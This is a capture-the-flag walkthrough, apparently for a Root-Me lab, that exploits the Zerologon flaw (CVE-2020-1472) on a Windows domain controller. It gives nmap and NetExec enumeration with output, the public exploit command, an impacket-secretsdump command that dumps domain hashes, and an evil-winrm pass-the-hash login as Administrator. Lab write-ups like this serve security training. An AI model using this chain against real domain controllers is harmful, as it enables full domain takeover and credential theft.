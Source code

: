 
## Enumeration

#### nmap

```bash
nmap -sC -sV -Pn <ip>
```

```
...
445/tcp open               Windows Server 2016 Standard 14393 microsoft-ds
Service Info: Host: DC-ZEROLOGON; OS: Windows; CPE: cpe:/o:microsoft:windows
...
```

#### NetExec

```bash
nxc smb ctf17.root-me.org -u '' -p '' -M zerologon
```

```
SMB         163.172.195.80  445    DC-ZEROLOGON     [*] Windows Server 2016 Standard 14393 x64 (name:DC-ZEROLOGON) (domain:DCNAME.local) (signing:True) (SMBv1:True)
SMB         163.172.195.80  445    DC-ZEROLOGON     [+] DCNAME.local\: 
ZEROLOGO... 163.172.195.80  445    DC-ZEROLOGON     VULNERABLE
ZEROLOGO... 163.172.195.80  445    DC-ZEROLOGON     Next step: https://github.com/dirkjanm/CVE-2020-1472

```

## Exploit

Download the exploit : https://github.com/dirkjanm/CVE-2020-1472

Run the exploit : 
```bash
python3 cve-2020-1472-exploit.py DC-ZEROLOGON <IP>
```


Use secretsdump to dump hashes :
```bash
impacket-secretsdump -just-dc -no-pass DC-ZEROLOGON\$@<IP>
```

Use evil-winrm to connect as Administrator : 

```bash
evil-winrm -u Administrator -H <ntlm hash> -i <IP>
```


